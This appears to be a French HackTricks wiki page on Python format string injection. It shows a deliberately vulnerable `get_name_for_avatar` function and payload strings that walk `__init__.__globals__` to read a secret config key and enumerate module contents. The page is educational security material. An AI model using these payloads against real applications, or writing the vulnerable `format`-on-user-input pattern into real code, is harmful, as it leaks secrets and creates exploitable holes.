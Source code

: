 {% content-ref url="output-searching-python-internals.md" %}
[output-searching-python-internals.md](output-searching-python-internals.md)
{% endcontent-ref %}

![](<../../../.gitbook/assets/image (9) (1) (2).png>)

\
Utilisez [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) pour créer facilement et **automatiser des workflows** alimentés par les outils communautaires les plus avancés au monde.\
Obtenez l'accès aujourd'hui :

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## Chaîne de formatage Python

Si vous **envoyez** une **chaîne** à Python qui va être **formatée**, vous pouvez utiliser `{}` pour accéder aux **informations internes de Python**. Vous pouvez utiliser les exemples précédents pour accéder aux globales ou aux fonctions intégrées, par exemple.

{% hint style="info" %}
Cependant, il y a une **limitation**, vous ne pouvez utiliser que les symboles `.[]`, donc vous **ne pourrez pas exécuter de code arbitraire**, juste lire des informations.\
_**Si vous savez comment exécuter du code via cette vulnérabilité, veuillez me contacter.**_
{% endhint %}
```python
# Example from https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/
CONFIG = {
    "KEY": "ASXFYFGK78989"
}

class PeopleInfo:
    def __init__(self, fname, lname):
        self.fname = fname
        self.lname = lname

def get_name_for_avatar(avatar_str, people_obj):
    return avatar_str.format(people_obj = people_obj)

people = PeopleInfo('GEEKS', 'FORGEEKS')

st = "{people_obj.__init__.__globals__[CONFIG][KEY]}"
get_name_for_avatar(st, people_obj = people)
```
Notez comment vous pouvez **accéder aux attributs** normalement avec un **point** comme `people_obj.__init__` et aux **éléments de dictionnaire** avec des **parenthèses** sans guillemets `__globals__[CONFIG]`.

Notez également que vous pouvez utiliser `.__dict__` pour énumérer les éléments d'un objet `get_name_for_avatar("{people_obj.__init__.__globals__[os].__dict__}", people_obj = people)`

D'autres caractéristiques intéressantes des chaînes de format sont la possibilité d'**exécuter** les **fonctions** **`str`**, **`repr`** et **`ascii`** dans l'objet indiqué en ajoutant **`!s`**, **`!r`**, **`!a`** respectivement:
```python
st = "{people_obj.__init__.__globals__[CONFIG][KEY]!a}"
get_name_for_avatar(st, people_obj = people)
```
De plus, il est possible de **coder de nouveaux formateurs** dans des classes:
```python
class HAL9000(object):
    def __format__(self, format):
        if (format == 'open-the-pod-bay-doors'):
            return "I'm afraid I can't do that."
        return 'HAL 9000'
```